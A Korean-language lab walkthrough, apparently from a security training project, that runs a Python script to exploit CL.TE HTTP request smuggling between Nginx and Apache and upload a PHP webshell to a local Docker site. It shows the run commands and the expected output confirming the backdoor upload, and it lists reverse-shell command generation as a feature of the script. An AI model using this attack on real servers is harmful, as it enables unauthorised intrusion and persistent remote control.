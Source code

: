 ### Step 1: 환경 확인

```bash
# Docker 컨테이너 확인
docker ps | grep -E "1xinv_nginx|1xinv_web_v2"

# 예상 출력:
# 1xinv_nginx       nginx:1.21.0    포트 9000
# 1xinv_web_v2      website2-web    내부 포트 80

# 없다면 시작
cd c:/Users/User/Documents/GitHub/HyundaiAutoever_ITsecurity_project4/website2
docker-compose up -d
```

### Step 2: Python 스크립트 준비

스크립트는 이미 생성되어 있습니다: [smuggle_webshell.py](smuggle_webshell.py)

**주요 기능**:
- CL.TE Smuggling 페이로드 자동 생성
- Multipart form-data 인코딩
- 웹쉘 업로드 자동 검증
- 리버스쉘 명령어 자동 출력

### Step 3: 스크립트 실행

```bash
# 기본 실행 (backdoor.php 업로드)
python3 smuggle_webshell.py

# 커스텀 파일명으로 업로드
python3 smuggle_webshell.py shell.php
python3 smuggle_webshell.py pwned.php
python3 smuggle_webshell.py cmd.php
```

**예상 출력**:
```
============================================================
  HTTP Request Smuggling - Webshell Upload
  CL.TE Attack (Nginx → Apache)
============================================================

[*] Target: localhost:9000
[*] Shell name: backdoor.php

[+] Smuggled request size: 687 bytes
[*] Connecting to server...
[+] Connected!

[*] Sending CL.TE smuggling payload...
[+] Payload sent!

[*] Waiting for response 1 (POST /)...
[+] Response 1 received (200 OK)

[*] Sending normal request to trigger smuggled payload...
[*] Waiting for response 2 (smuggled POST)...

[+] ✅ Webshell uploaded successfully!
[+] Server response: {"success":true,"message":"문의가 성공적으로 접수되었습니다.","inquiry_id":6,"image_path":"uploads/backdoor.php"}

[+] Webshell URL: http://localhost:9000/uploads/backdoor.php

```